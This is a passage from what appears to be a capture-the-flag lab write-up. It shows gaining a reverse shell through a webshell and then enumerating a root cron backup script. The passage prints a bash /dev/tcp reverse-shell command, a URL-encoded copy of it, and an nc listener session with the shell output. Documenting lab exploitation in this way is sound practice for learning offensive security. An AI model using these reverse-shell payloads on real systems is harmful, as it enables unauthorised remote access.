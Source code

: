 ```bash
bash -c 'bash -i >& /dev/tcp/172.19.0.3/5555 0>&1'
```

```bash
bash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F172%2E19%2E0%2E3%2F5555%200%3E%261%27
```

![webshell - redis - nc - revshell](images/webshell_redis_nc_revshell.png)

```bash
$ rlwrap -cAr nc -nlvp 5555      
listening on [any] 5555 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.94] 49728
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@www:/var/www/html/8924d0549008565c554f8128cd11fda4$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

After some enumeration, I noticed that `cron` is running on the container and that there is a `backup.sh` script scheduled to run as `root` every 3 min.

```bash
www-data@www:/$ ps -ef
ps -ef
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 Aug22 ?        00:00:00 /bin/sh -c service cron start &&
root        11     1  0 Aug22 ?        00:00:00 /usr/sbin/cron
root        12     1  0 Aug22 ?        00:00:02 apache2 -DFOREGROUND
...
```

```bash
www-data@www:/$ ls -lha /etc/cron.d
ls -lha /etc/cron.d
total 16K
drwxr-xr-x 1 root root 4.0K Jul 15  2018 .
drwxr-xr-x 1 root root 4.0K Jul 15  2018 ..
-rw-r--r-- 1 root root  102 Jun 11  2015 .placeholder
-rw-r--r-- 1 root root   38 May  4  2018 backup
```

```bash
www-data@www:/$ cat /etc/cron.d/backup
cat /etc/cron.d/backup
*/3 * * * * root sh /backup/backup.sh
```

```bash
www-data@www:/$ cat /backup/backup.sh

cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
rsync -a *.rdb rsync://backup:873/src/rdb/
cd / && rm -rf /var/www/html/*
rsync -a rsync://backup:873/src/backup/ /var/www/html/
chown www-data. /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
```
